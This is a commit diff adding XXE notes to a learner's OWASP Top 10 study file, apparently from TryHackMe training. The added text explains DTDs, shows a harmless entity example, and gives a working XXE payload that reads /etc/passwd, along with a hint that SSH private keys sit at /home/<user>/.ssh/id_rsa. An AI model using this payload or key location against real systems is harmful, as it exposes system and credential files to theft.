

Before and after one commit to ziadhamdy88/THM, a Markdown page: Notes/OWASP Top 10.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
XXE notes added!

```diff
--- a/Notes/OWASP Top 10.md
+++ b/Notes/OWASP Top 10.md
@@ -72,6 +72,22 @@
 					`<subject>About XXE</subject>`
 					`<text>Teach about XXE</text>`
 				  `</mail>`
+		- **DTD (Document Type Definition):**
+			- Defines the structure and the legal elements and attributes of an XML document.
+			- Used to validate the information of an XML document against the defined rules.
+		- **Payload examples:**
+			- Simple payload:
+				 `<!DOCTYPE replace [<!ENTITY name "feast"> ]>`
+				 `<userInfo>`
+					 `<firstName>falcon</firstName>`
+					 `<lastName>&name;</lastName>`
+				 `</userInfo>`
+				 - Defining an Entity called `name` and assigning it a value of `feast`, and later, used that entity in the code.
+			- Payload to read some file:
+				`<?xml version="1.0"?>`
+				`<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>`
+				`<root>&read;</root>`
+		- **NOTE:** Common location for `ssh` keys is `/home/<user>/.ssh/id_rsa`.
 - ## Broken Access Control
 - ## Security Misconfiguration
 - ## Cross-site Scripting
```
